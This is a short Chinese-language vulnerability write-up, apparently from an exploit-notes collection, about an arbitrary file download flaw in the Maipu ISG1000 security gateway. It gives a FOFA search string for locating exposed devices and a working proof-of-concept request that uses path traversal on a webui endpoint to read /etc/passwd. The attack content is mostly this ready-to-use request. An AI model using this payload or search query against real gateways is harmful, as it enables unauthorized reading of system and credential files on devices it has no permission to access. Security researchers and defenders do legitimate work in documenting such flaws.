 # 迈普-ISG1000安全网关-任意文件下载漏洞

## 漏洞描述

迈普 ISG1000安全网关 存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

> [!NOTE]
>
> 迈普 ISG1000安全网关

## FOFA

> [!NOTE]
>
> title="迈普通信技术股份有限公司"

## 漏洞复现

登录页面如下

![image-20210604151806596](迈普-ISG1000安全网关-任意文件下载漏洞.assets/1627363588066436.jpg)

请求的 POC 为

```
/webui/?g=sys_dia_data_down&file_name=../etc/passwd
```

![image-20210604152228481](迈普-ISG1000安全网关-任意文件下载漏洞.assets/1627363588364118.jpg)